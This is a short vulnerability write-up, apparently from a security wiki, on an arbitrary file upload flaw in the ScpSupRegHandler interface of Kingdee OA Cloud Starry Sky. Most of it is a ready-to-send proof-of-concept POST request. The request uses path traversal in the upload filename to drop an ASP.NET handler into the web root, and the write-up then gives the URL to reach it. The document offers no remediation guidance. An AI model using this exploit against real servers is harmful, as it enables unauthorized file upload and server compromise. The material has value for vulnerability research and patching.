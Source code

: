 # Kingdee OA Cloud Starry Sky ScpSupRegHandler Any file upload vulnerability

## Vulnerability Description

Kingdee OA Cloud Starry Sky ScpSupRegHandler interface has a vulnerability to upload any file. The attacker can upload any file to obtain server permissions through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Kingdee OA Cloud Starry Sky</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1684495679897-2feb46d7-5571-44e5-b6d1-b5997d685a9f-9419221.png)

Verify POC

```php
POST /k3cloud/SRM/ScpSupRegHandler HTTP/1.1
Host: 
Accept-Encoding: identity
Content-Length: 973
Accept-Language: zh-CN,zh;q=0.8
Accept: */*
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=2ac719f8e29343df94aa4ab49e456061

--2ac719f8e29343df94aa4ab49e456061
Content-Disposition: form-data; name="dbId_v"

.
--2ac719f8e29343df94aa4ab49e456061
Content-Disposition: form-data; name="FID"

2022
--2ac719f8e29343df94aa4ab49e456061
Content-Disposition: form-data; name="FAtt"; filename="../../../../uploadfiles/test.ashx."
Content-Type: text/plain

<%@ WebHandler Language="C#" Class="TestHandler" %>
        using System;
        using System.Web;
        public class TestHandler : IHttpHandler {
            public void
            ProcessRequest (HttpContext context) {
                context.Response.ContentType= "text/plain";
                context.Response.Write("Test");
            }
            public bool IsReusable {
                get {return false; }
            }
        }
--2ac719f8e29343df94aa4ab49e456061--
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1699164389355-666b828b-1f8c-42ae-8ac3-08f60743488e.png)

```php
/K3Cloud/uploadfiles/Test.ashx
```